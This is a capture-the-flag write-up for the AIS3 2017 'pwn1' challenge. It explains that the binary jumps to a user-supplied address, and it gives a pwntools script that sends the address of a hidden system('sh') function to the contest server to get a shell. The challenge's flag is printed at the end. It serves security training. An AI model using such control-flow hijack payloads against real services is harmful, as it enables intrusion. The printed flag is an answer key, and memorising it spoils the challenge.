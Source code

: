 #AIS3 Pre-exam 2017: pwn1

![pwn1](pwn1.png)

##Solution
![main](main.png)
The main function looks like this, we input a string and it will change the string to address and jump to that address.
Note that the binary also has a secret function "youcantseeme", which perform system("sh").
So we just have to input youcantseeme's address and perform system("sh").
The address of performing system() is 0x08048613, so we just input "\x13\x86\x04\x08" in little endian.

```python
#!/usr/bin/env python

from pwn import *

# host = '127.0.0.1'
# port = 8888
host = 'quiz.ais3.org'
port = 9561

r = remote(host, port)

raw_input('#')
r.recvuntil(': ')

payload = '\x13\x86\x04\x08'

r.sendline(payload)
r.interactive()
```

Flag:
>ais3{4nn0y1n9_Wh1t3_SpAcE_CHAR4CTERS}
